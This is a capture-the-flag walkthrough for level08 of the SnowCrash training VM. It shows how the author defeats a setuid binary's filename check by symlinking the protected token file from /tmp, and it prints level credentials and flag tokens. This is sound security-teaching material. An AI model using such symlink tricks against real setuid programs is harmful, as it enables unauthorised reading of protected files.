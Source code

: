 # Flag 08

- Access to Snow-Crash VM using level08/fiumuikeil55xe9cu4dood66h credentials
```
e1r9p7% ssh -p 4242 level08@10.11.100.146
```

- `ll`
```
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08*
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```

- Run the level08 script
```
level08@SnowCrash:~$ ./level08 
./level08 [file to read]
```

- More attemps
```
level08@SnowCrash:~$ ./level08 token 
You may not access 'token'

level08@SnowCrash:~$ echo "test" > /tmp/test

level08@SnowCrash:~$ ./level08 /tmp/test
test
```

- So I don't have the permission to pass token like level08 param, but with test file, it works. Try to pass a file with `ls` cmd
```
level08@SnowCrash:~$ echo "`ls`" > /tmp/test
level08@SnowCrash:~$ ./level08 /tmp/test
level08
token
level08@SnowCrash:~$ echo "`getflag`" > /tmp/test
level08@SnowCrash:~$ ./level08 /tmp/test
Check flag.Here is your token : 
Nope there is no token here for you sorry. Try again :)
```

- With `ls` it works but `getflag` no. after many attempts to pass the `getflag` command, I got nothing. Tryng to pass symbolic link!
```
level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/test2
level08@SnowCrash:~$ ./level08 /tmp/test2
quif5eloekouj29ke0vouxean
level08@SnowCrash:~$ su flag08
Password: 
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
